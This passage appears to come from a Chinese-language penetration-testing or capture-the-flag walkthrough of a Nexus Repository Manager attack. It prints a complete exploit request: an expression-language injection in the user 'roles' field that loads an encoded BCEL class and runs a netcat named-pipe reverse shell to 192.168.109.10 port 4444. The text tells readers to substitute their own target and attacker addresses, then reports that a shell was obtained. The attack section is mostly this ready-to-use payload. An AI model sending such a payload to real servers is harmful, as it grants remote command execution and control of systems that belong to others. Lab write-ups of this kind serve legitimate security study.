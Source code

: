 ```http
{"action":"coreui_User","method":"update","data":[{"userId":"admin","version":"10","firstName":"Administrator","lastName":"User1","email":"admin@example.org","status":"active","roles":["${''.class.forName('com.sun.org.apache.bcel.internal.util.ClassLoader').newInstance().loadClass('$$BCEL$$$l$8b$I$A$A$A$A$A$A$ff$8dSMS$d3P$U$3d$8f$b6I$J$v$U$K$94$60QA$c5P$uU$E$3fZD$Fq$86$Z$40$87$3a$3a$ZWi$fa$c0$60I$3ai$ca$b0r$e5$7fq$ab$9b$d6$91$d1$a5$L$7f$87$L$fd$P$8ex_Z$3e$8a$ca$d8I$df$cb$bb$f7$9c$7b$eeG$de$d7_$l$3f$D$98$c5$p$F$j$I$c9$I$ab$88$40b$88o$9b$bbf$b6l$3a$5b$d9$c7$c5mn$f9$M$d2$bc$ed$d8$fe$CCH$9fx$a6$m$8aN$Z$8a$8a$$$a8$M$bd$c7$f0$8d$9a$e3$db$3b$9cA$d9$e2$fe$d1a$40$9fX$fd$D$93$97$d1$dd$sU$f0$3d$db$d9$8a$o$ce$mg$8b$b6$93$ad$be$8c$a2$8f$a1$pc$J$c1$7e$V$D$Yd$I$f3$3dn1$e8$fa$8b$d5$d3$dc$fcI$99$t$9ek$f1j$95d$86$Y$G$D$bb$edf$Xk$9b$9b$dc$e3$a5$Nn$96$b8$tc$98A$3b$f4$ad8$95$9aO$91$b8$b9$d3t$xHaD$c6y$V$Xp$b1$ad$ceVp$86n$aa$f3$E$8f$nyXk$7b$c0$bc$C$Nc$a2$bf$97$Y$86$f4$bfBDc$93$b8$o$40$e3$M$89cP3$9b$c0$9f$82$aebBd$p$94$97$3d$cf$f5$9al$Z$93$q$7e$ba$p$8b5$bb$i$U$92FH$E$9fV$91$c55$86$uQJ$ab$b6C$c3$e9o$hN$ab$91$820$a3$e2$Gfi$f4f$a5$c2$9d$SCF$3f$bb$e3m$92A$88$9b$o$c4$z$86$94$bet6$f0$8e$8a$5c$90$97$ef6$9d2$e6$Z$o$7c$d7$y$cf$d0$c8$97$dc$Se$da$p$S$5e$af$ed$U$b9$f7$d4$y$96$c92$fe_$Z$e5$Zb$F$df$b4$5e$ad$99$95$WQY$de$b3x$c5$b7$5d$a7$wc$89$9a$7d$cc9$f2$Q$aa$e0$d6$3c$8b$3f$b2$DJ$90$cc$b4$Ab$Uy$ba1$e2$d7$B$s$ee$M$adw$e94B$3b$a3$3d$92n$80$bd$a7$X$86$FZ$a5$c0$Y$a6u$A$f7$88$o$a0$df$88$s$d3$fe$e6$Dd$e9$TbF$a8$af$a7$60$84$fbz$LFd$b2PGbm$lIc$l$9a1U$c7$b9$GF$h$b8$bc$7e$c2t$b5i$ca$85$f7$916$g$98$caE2ud$8c$9c$f4$F$J$z$a2Iu$5c$8f$xu$cc$3d$7f$7b$f0C$L$ff$cb$f5$5d$8b$d4q$fb$5dP$88$c8t$i$9d$b4F$e9$5b$ed$c2$YTL$n$869t$e3$3e$e2XA$C$W$fa$f1$g$83t$G$f9C$Hd$94d$d0$j$8b$c9H$c9H$GO$g$f8$J$8dl$c3x$d0$aa$7b$91$fe$P$D$95$e5$df$5d$90$g$iv$E$A$A').newInstance().exec('rm -f /tmp/f;mkfifo /tmp/f;/bin/sh -i < /tmp/f 2>&1 | nc 192.168.109.10 4444 > /tmp/f')} "]}],"type":"rpc","tid":24}
```

注意其中的目标ip和端口需要更换，反弹shell中的攻击者ip和端口也应替换为自己的。

9.发送POST请求，成功get shell：

<img src="picture/nexus反弹shell成功_getflag.png" alt="nexus反弹shell成功_getflag" style="zoom:33%;" />

---

#### 内网渗透攻击
